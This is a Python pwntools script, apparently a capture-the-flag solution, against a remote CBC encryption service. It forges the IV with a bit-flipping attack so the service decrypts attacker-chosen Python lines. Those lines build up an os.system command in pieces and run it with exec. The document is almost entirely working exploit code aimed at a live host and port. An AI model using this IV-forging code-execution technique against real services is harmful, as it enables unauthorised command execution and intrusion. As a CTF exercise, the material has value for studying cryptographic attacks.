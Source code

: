 ```python
#!/usr/bin/python3

from pwn import *
from Crypto.Util.Padding import pad

local = True

host, port = "103.102.44.218", 10007

if local:
    p = process('python CBC.py', shell=True)
else:
    p = remote(host,port)

p.recvuntil(b'sample encryption\n')
sample = p.recvline()

iv = unhex(sample[:32])
ct = unhex(sample[32:])
pt = b'trapped_forever'

log.info(f'got iv: {enhex(iv)}')
log.info(f'got ct: {enhex(ct)}')
log.info(f'got pt: {enhex(pt)}')

pt = pad(pt, 16)

def encpayload(s):
    hexed = enhex(s)
    encoded = '|\\x'.join([hexed[x:x+2] for x in range(0, len(hexed), 2)]).split('|')
    parts = [f"a='\\x{encoded[0]}'"]
    for i, p in enumerate(encoded[1:]):
        parts.append(f"a+='{p}'")
    
    return parts

# any payload will do, we can keep appending anything to variable
payload_list = encpayload(b'os.system("ls -la")')
payload_list.append('print(a)')
payload_list.append('exec(a)') 

for pl in payload_list:
    res = p.recvuntil(b'>>')

    pl = pad(pl.strip().encode(), 16)
    
    target = xor(pt, pl)
    new_iv = xor(target, iv)

    final_payload = enhex(new_iv) + enhex(ct)  
    p.sendline(final_payload.encode())

p.interactive()
```
